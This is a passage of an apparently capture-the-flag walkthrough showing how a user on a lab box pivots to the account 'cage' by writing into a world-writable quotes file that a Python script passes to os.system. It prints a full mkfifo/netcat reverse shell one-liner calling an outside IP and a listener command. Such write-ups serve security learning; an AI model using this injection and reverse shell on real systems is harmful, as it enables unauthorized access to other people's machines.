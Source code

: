 ```
weston@national-treasure:~$ cd /home
weston@national-treasure:/home$ ls -la
total 16
drwxr-xr-x  4 root   root   4096 May 26 07:49 .
drwxr-xr-x 24 root   root   4096 May 26 07:51 ..
drwx------  7 cage   cage   4096 May 26 21:34 cage
drwxr-xr-x  4 weston weston 4096 May 26 08:35 weston
```

Here, we can see that there is another account as well that belongs to `cage`. On trying to access cage's directory, the permission gets denied. So, we can look for some files on the system that are owned by cage but we can access them. This can be done as:

```
weston@national-treasure:/home$ find / -user cage 2> /dev/null
/home/cage
/opt/.dads_scripts
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files
/opt/.dads_scripts/.files/.quotes
```

The files in the directory `/opt/.dads_scripts` look a bit odd. On analyzing the `spread_the_quotes.py` file:

```
weston@national-treasure:/opt/.dads_scripts$ cat spread_the_quotes.py 
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

We can see that it reads the `.quotes` file and selects a random line from it. Which is then displayed to all the users via the system command `wall`.  

On checking the permissions of the `.quotes` file, we can see that others have the permission to read and write to the file. So, we can modify this file and add a bash reverse shell payload to it which would get executed by `os.system()` in the `spread_the_quotes.py` script as cage. With this, we will be able to access the machine as cage.

```
weston@national-treasure:/opt/.dads_scripts/.files$ echo "Test; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.91.135 4242 >/tmp/f" > .quotes 
```

Along with this, we need to start a listener on our local machine using the command `nc -nvlp 4242`

Now, whenever the script would run, it will print `Test` on wetson's shell and we will get a reverse shell on our listener as cage.
